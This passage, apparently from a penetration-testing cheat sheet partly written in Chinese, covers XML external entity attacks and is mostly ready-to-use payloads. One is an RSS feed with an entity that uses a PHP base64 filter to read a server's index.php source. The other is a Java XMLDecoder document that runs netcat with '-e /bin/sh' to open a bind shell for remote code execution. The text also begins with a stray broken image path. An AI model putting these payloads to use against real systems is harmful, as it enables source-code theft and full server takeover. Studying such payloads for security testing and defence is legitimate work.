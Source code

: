 ### Read source code

Using PHP base64 filter

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

## Java XMLDecoder XEE to RCE

XMLDecoder 是一个基于 XML 消息创建对象的 Java 类。如果恶意用户可以在调用**readObject**方法时让应用程序使用任意数据，将可在服务器上的代码执行。

### Using Runtime().exec()

```markup
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```
